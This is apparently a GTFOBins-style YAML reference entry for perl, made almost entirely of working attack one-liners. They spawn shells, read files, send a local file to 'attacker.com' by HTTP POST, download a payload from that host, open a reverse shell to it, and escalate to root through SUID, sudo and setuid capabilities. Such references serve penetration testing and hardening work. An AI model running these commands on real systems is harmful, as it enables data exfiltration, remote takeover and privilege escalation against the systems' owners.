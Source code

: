 ```yaml
---
functions:
  shell:
    - code: perl -e 'exec "/bin/sh";'
  file-read:
    - code: |
        LFILE=file_to_read
        perl -ne print $LFILE
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Capture content on attacker host, example: `LPORT=8080; tcpdump -i any -s 0 -l -A "tcp dst port $LPORT and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)" | awk 'BEGIN { show=0 } /Connection: close/ { show=1; next } show'`
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s = new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"}, PeerPort=>$ENV{"RPORT"}, Proto=>"tcp") or die;open(my $file, "<", $ENV{"LFILE"}) or die;$content = join("", <$file>);close($file);$post_data = "d=" . $content;$headers = "POST " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: " . length($post_data) . "\r\nConnection: close\r\n\r\n";print $s $headers . $post_data;while (<$s>) { }close($s);'
  file-download:
    - description: Download a file via HTTP. For example, run `python3 -m http.server 8080` on the serving side.
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s=new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"},PeerPort=>$ENV{"RPORT"},Proto=>"tcp") or die; print $s "GET " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nMetadata: true\r\nConnection: close\r\n\r\n"; open(my $fh, ">", $ENV{"LFILE"}) or die; $in_content = 0; while (<$s>) { if ($in_content) { print $fh $_; } elsif ($_ eq "\r\n") { $in_content = 1; } } close($s); close($fh);'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid:
    - code: ./perl -e 'exec "/bin/sh";'
  sudo:
    - code: sudo perl -e 'exec "/bin/sh";'
  capabilities:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```

